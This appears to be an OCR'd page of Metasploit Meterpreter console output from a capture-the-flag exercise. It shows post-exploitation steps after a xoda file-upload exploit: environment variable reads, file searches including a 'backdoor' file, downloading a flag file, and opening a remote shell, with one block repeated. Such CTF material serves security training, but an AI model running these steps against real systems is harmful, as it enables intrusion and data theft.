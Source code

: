 ```
meterpreter > getenv PATH

Environment Variables
=====================

Variable  Value
--------  -----
PATH      /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

```
meterpreter > getenv TERM
[-] None of the specified environment variables were found/set.
```

```
meterpreter > search -d /usr/bin -f *backdoor*
Found 1 result...
    /usr/bin\backdoor (66 bytes)
```

```
meterpreter > search -f *.jpg
No files matching your search were found.
meterpreter > search -f *.php
Found 5 results...
    .\config.php (1284 bytes)
    .\functions.php (40563 bytes)
    .\index.php (57739 bytes)
    .\phpinfo.php (19 bytes)
    .\zipstream.php (18850 bytes)
```

```
meterpreter > download flag1
[*] Downloading: flag1 -> flag1
[*] Downloaded 39.00 B of 39.00 B (100.0%): flag1 -> flag1
[*] download   : flag1 -> flag1
```

```
meterpreter > download flag1
[*] Downloading: flag1 -> flag1
[*] Downloaded 39.00 B of 39.00 B (100.0%): flag1 -> flag1
[*] download   : flag1 -> flag1
```

```
msf5 exploit(unix/webapp/xoda_file_upload) > sessions 4
[*] Starting interaction with xoda...

meterpreter > shell
Process 862 created.
Channel 7 created.
ls
LICENSE
README
README.md
Secret Files
config.php
files
flag1
flag5.zip
functions.php
index.php
js
logo.png
mobile.css
```